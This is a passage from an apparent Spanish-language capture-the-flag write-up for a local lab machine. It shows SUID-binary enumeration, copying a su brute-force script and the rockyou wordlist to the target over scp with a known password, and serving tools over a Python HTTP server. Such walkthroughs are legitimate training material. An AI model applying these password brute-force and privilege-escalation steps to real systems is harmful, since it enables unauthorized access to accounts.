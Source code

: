```bash
drwxr-xr-x 17 root root 4096 Jul  4 17:30 ..

balutin@3df40de16f5f:~$ ls -la /tmp 
total 8
drwxrwxrwt  2 root root 4096 Jul  4 17:30 .
drwxr-xr-x 17 root root 4096 Jul  4 17:30 ..

find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
```
### Explotacion de Privilegios

###### Usuario `[ balutin ]`:
Dato que solo existe un usuario mas en el sistema que es el **privilegiado** tendremos que aplicar fuerza bruta, Tendremos que transferir dos herramientas para esto:
**LInux-Su-Force** Herramienta para fuerza bruta de usarios, Desarrollada por el **hacker** **Pinguino De Mario**
**Rockyou** Diccionario con millones de contrasenas.
```bash
  Linux-Su-Force.sh   rockyou.txt
```

Ahora lo que tendremos que hacer es montarnos un servidor con python para dejar disponibles estas herramientas, Cuando realizamos la peticion desde la maquina victima
```bash
python3 -m http.server 80
```

Revisando que la maquina victima no tiene **( nc | curl | wget  )** realizaremos la transferencia por ssh ya que tenemos las claves de acceso:
```bash
❯ scp Linux-Su-Force.sh balutin@172.17.0.2:/home/balutin
balutin@172.17.0.2's password: # ( estrella )
Linux-Su-Force.sh 
```

```bash
❯ scp rockyou.txt balutin@172.17.0.2:/home/balutin

balutin@172.17.0.2's password: # ( estrella ) 
rockyou.txt
```

Ya teniendo las herramientas transferidas en la maquina victima procedemos a dar permisos de ejecucion:
```bash
chmod +x Linux-Su-Force.sh 
```
